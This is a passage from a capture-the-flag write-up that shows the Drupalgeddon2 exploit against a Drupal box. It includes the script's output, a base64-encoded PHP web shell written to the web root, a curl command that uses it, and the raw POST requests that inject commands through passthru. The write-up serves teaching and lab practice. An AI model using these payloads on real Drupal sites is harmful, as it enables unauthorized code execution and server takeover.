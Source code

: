 ```
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://127.0.0.1:8888/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://127.0.0.1:8888/shell.php' -d 'c=hostname'
armageddon.htb>>

```

There are eight new requests in Burp:

![image-20210326163257806](https://0xdfimages.gitlab.io/img/image-20210326163257806.png)

The first thing it does is pull the `CHANGELOG.txt`, just like I did above. Then it tries a couple paths to this `/user/password` form, and gets 500 and 404. It goes back to the one that gave 500, and adds additional parameters:

```

POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20VQMJGJAU HTTP/1.1
User-Agent: drupalgeddon2
Connection: close
Host: 127.0.0.1:8888
Content-Length: 47
Content-Type: application/x-www-form-urlencoded

form_id=user_pass&_triggering_element_name=name

```

The `name[%23markup]` field is set to a command. I’m not going to dive too much deeper into the details of why this executes - [This post](https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/) from Checkpoint does a really nice job going into the details. But to see what the script does, it first sends the request above with the final bit being `echo VQMJGJAU`. This is just to verify that the exploit works. Then it tries to talk to the backdoor (presumably to see if it’s already uploaded). When that fails (404), it sends the next request:

```

POST /?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo%20PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9%20|%20base64%20-d%20|%20tee%20shell.php HTTP/1.1
User-Agent: drupalgeddon2
Connection: close
Host: 127.0.0.1:8888
Content-Length: 47
Content-Type: application/x-www-form-urlencoded

form_id=user_pass&_triggering_element_name=name

```
